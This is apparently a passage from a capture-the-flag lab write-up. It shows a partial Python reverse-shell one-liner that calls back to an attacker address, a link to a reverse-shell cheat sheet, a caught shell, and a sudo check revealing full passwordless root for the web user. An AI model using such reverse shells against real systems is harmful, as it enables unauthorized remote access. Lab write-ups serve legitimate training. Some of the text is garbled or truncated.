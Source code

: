 **Python Payload**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))
```

There is Also **Ruby** - **Java** -  **Netcat** -  **Xterm** Payloads [LINKS Cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "CI Cheat sheet").

**THE PERL SHELL EXECUTED**

## STEP 4

Checking Connection and connection to **Host OS**

```bash
onnection received on $IP 55412
```

**Checking Commands Previleges**
```bash
$ sudo -l
```

```bash
Matching Defaults entries for www-data on
    ip-10-10-62-191.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-62-191.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL

```

**(ALL) NOPASSWD: ALL**

**Listing Files and Found the first flag**
```bash
$ ls
```

```bash
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

```bash
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
